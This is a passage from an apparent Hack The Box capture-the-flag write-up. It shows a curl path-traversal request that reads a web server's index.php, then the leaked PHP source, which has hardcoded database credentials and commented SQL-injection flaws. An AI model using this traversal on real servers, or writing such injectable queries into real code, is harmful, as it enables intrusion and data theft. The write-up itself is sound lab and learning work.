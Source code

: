 This means that I could potentially read some files here. This is probably hosted in `/var/www/html`, and I wanted to read more about `index.php`, the page with the Blind SQLI.

```
$ curl -k https://www.nestedflanders.htb/dev../html/index.php
<RETURNS PAGE CODE>
```

I added my comments on the vuln:

```php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;

include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
        global $debug;
        $valid_ids = array (25,465,587);
        ### no parameterisation of user input queries
        ### this allows for SQL Injection
        if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {

                        $sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
        } else {
                $sql = "SELECT name FROM idname where id = '25'";
        }
        if ($debug) { echo "sqltpl: $sql<br>\n"; } 

        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                $ret = $row['name'];
        }
        ### Blind injection is set up here, whereby if there are issues with the query,
        ### it returns 25.
        } else {
                $ret = 'main';
        }
        if ($debug) { echo "rettpl: $ret<br>\n"; }
        return $ret;
}

function getPathFromTpl($conn,$tpl) {
        global $debug;
        $sql = "SELECT path from filepath where name = '".$tpl."'";
        if ($debug) { echo "sqlpath: $sql<br>\n"; }
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                        $ret = $row['path'];
                }
        }
        if ($debug) { echo "retpath: $ret<br>\n"; }
        return $ret;
}

$tpl = getTplFromID($conn);
$inc = getPathFromTpl($conn,$tpl);

```